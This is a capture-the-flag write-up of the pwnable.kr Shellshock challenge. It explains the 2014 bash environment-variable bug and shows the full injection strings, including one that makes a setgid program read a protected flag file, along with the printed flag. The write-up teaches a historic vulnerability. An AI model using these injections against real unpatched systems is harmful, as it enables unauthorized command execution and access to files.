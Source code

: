 ```yaml
---
title: "CVE-2014-6271: ShellShock Intro"
excerpt: "As Wiz Khalifa once said: Knock, knock you about to get SHELLSHOCKED!"
date: 2020-03-16T09:24:19-05:00
categories:
 - pwn practice
url: "/pwnable.kr/shellshock"
tags:
 - pwnable.kr
 - "historic exploits"
---
```


# pwnable.kr: Shellshock

> Mommy, there was a shocking news about bash.
>
> I bet you already know, but lets just make it sure :)
>
> `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

## Given

All we're given in this is a ssh login command, and it's password:

* `ssh shellshock@pwnable.kr -p2222 (pw:guest)`

The tittle of the challenge, combined with the hint suggests we're going to be dealing with something relating to "shellshock" and Bash.

Some quick googling for "Bash shellshock" leads us to the following:
* [National Vulnerability Database on CVE-2014-6271 (a.k.a "ShellShock")](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
* [Wikipedia page on ShellShock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

OK - so it seems like we're going to have to take advantage of a vulnerable bash binary, by storing a command inside an environment variable that will get unintentionally executed?

## First, lets get on the box

```bash
...
shellshock@pwnable:~$
```

OK - we're on.

## Look around

```bash
...
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
...
```

OK - so we have our flag file, a binary, it's source code, and an executable "bash". I imagine this is a specific version of bash that is vulnerable, as opposed to the system itself running that version, because that'd be bad :)

We can check. System's bash version:

```bash
bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

vs the given `bash` binary's version:

```bash
./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Ooof - 2011. From the mentioned wikipedia page, we can use the command given from the initial report to test for vulnerability:

System:

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
```

Vs given:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

Sweet.

## Inspect files

Running the binary just yields:

```bash
./shellshock
shock_me
```
And then it quits.

Looking at the source code:

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

setresuid [man page](http://man7.org/linux/man-pages/man2/setresgid.2.html):
>
> ```c
>       int setresuid(uid_t ruid, uid_t euid, uid_t suid);
>       int setresgid(gid_t rgid, gid_t egid, gid_t sgid);
> ```
>
> `setresuid()` sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.
>
> `setresgid()` sets the real GID, effective GID, and saved set-group-ID of the calling process

If we look at the `shellshock` binary:

```bash
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
```

We see it has the same ownership/access as our flag file:

```bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
```

So, from the `shellshock` binary's user+group, we'd be able to just `cat` the flag (which we can't do as the default shellshock user).

## Takeaway
We need to arbitrarily get the `shellshock` program to execute a `cat /home/shellshock/flag`.


## Closer look at the ShellShock vulnerability
[This](https://fedoramagazine.org/shellshock-how-does-it-actually-work/) Fedora Magazine article does a pretty good job of explaining in layman's terms what the vulnerability is; I'd recommend reading it.

In a nutshell:
* Bash is what we see as a terminal prompt, but also scripting language
* Can define functions, accordingly
* Can use `bash -c` to run a command in a new instance/subprocess of bash.
* This only inherits **the user's environment**, not function definitions (instead, use `export -f <func>; bash -c <cmd>`)

_However_, how bash does this is sketchy because the subprocess still has no notion of inheriting functions, only environment variables. So it needs to create just a regular ol' bash environment variable with our function.

The vulnerability is that bash didn't actually stop after it read a functions (i.e. environment variable) definition. So you could shove additional commands/anything you want and they'd be executed.

That's why the following prints both echo statements:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
```

We define our "function":

```bash
() { :;}; ...
```

Which is just a nameless function that does nothing (`:`) and that's it. However, we then add it's closing brace and `;`, after which we inject our "attack" (becuase _we can_):

```bash
... echo vulnerable' ...
```

Then, we specify our subprocess, which will need to inherit this new environment variable, and in the process, executing our attack:

```bash
... ./bash -c "echo this is a test"
```

Altogether:

```bash
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
---------------  ---------------  -------------------------------
 env variable     attack that                   subprocess that is to load our
  to 'inherit'    gets executed                 totally legit "environment variable"
                  bc the vuln
                  when reading env vars
```

So, then, it's clear what we need to get the shellshock to spit out our flag:
* "Attack" is to cat the flag file
* subprocess is to run the shellshock file, which gets the proper user/group access to the file

```bash
env x='() { :;}; /bin/cat /home/shellshock/flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

Flag is `only if I knew CVE-2014-6271 ten years ago..!!`
